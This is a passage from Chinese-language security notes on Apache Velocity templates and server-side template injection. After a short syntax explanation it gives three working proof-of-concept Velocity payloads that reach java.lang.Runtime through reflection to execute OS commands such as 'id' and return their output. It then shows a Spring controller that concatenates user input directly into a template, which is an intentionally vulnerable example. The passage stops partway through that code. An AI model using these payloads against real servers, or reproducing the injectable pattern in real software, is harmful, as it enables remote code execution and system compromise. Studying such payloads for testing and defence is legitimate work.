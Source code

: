 
　　2、#if($!obj) #else #end 判断语句  
　　 如：在EasyJWeb各种开源应用中，我们经常看到的用于弹出提示信息msg的例子。

    　　 #if($msg)
    
    　　 <script>
    　　 alert('$!msg');
    　　 </script>
    
    　　 #end
    

poc

    // 命令执行1
    #set($e="e")
    $e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")
    
    // 命令执行2 
    #set($x='')##
    #set($rt = $x.class.forName('java.lang.Runtime'))##
    #set($chr = $x.class.forName('java.lang.Character'))##
    #set($str = $x.class.forName('java.lang.String'))##
    #set($ex=$rt.getRuntime().exec('id'))##
    $ex.waitFor()
    #set($out=$ex.getInputStream())##
    #foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
    
    // 命令执行3
    #set ($e="exp")
    #set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
    #set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
    #set($sc = $e.getClass().forName("java.util.Scanner"))
    #set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
    #set($scan=$constructor.newInstance($input).useDelimiter("\A"))
    #if($scan.hasNext())
    $scan.next()
    #end
    
    

模版注入
----

抠了段代码

     @RequestMapping("/ssti/velocity1")
        @ResponseBody
        public String velocity1(@RequestParam(defaultValue="nth347") String username) {
            String templateString = "Hello, " + username + " | Full name: $name, phone: $phone, email: $email";
    
            Velocity.init();
            VelocityContext ctx = new VelocityContext();
            ctx.put("name", "Nguyen Nguyen Nguyen");
            ctx.put("phone", "012345678");
            ctx.put("email", "nguyen@vietnam.com");
    